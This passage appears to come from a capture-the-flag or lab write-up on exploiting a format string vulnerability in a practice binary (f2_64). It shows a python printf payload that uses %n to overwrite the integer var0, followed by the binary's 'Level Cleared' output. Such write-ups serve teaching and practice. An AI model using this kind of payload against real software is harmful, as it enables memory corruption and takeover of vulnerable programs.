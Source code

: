 As you can see, we were able to sucessfully write to the var0 integer. However we wrote to more bytes than we were supposed to (probably because of our formatting). We can correct this by writing 480 bytes instead of 482.

```
$	python -c 'print "00000%480x.%8$n." + "\x5c\x10\x60\x00\x00\x00\x00\x00"' | ./f2_64 
00000                                                                                                                                                                                                                                                                                                                                                                                                                                                                                          602029..\`What type of a guy would take advantage of a printf? I'll tell you. Level Cleared
The value of var0 is 486
```

Just like that, we pwned the binary!